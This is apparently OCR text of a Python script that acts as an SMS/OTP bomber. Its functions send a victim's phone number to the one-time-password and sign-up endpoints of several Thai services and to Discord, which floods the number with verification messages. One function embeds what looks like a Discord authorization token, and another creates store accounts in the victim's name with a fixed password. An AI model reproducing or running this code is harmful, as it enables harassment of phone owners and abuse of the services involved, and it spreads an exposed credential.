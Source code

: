     post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,

        "language": "th"},headers={"accept": "application/json, text/plain, /",

	    "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})

    

def cang12(phone):

	post("https://discord.com/api/v9/users/@me/phone",json={

  "phone": "+66"+phone,

  "change_phone_reason": "guild_phone_required"

},headers={"authorization":"OTA4MjA2NjE4NjE1OTA2Mzg1.Ycz2Hw.TdQLC2lIwn6UQDl1xBsyJGLnjOw"})



def cang13(phone):

	post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})



def cang13(phone):

	post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})

	

def cang14(phone):

	post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})

	

def cang15(phone):

	post("https://www.wongnai.com/_api/guest.json?_v=6.056&locale=th&_a=phoneLogIn",data={"phoneno":phone,



"retrycount":"0"



    },headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})

    

def cang16(phone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":phone,"password":"1111a1111A","name":phone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})

    
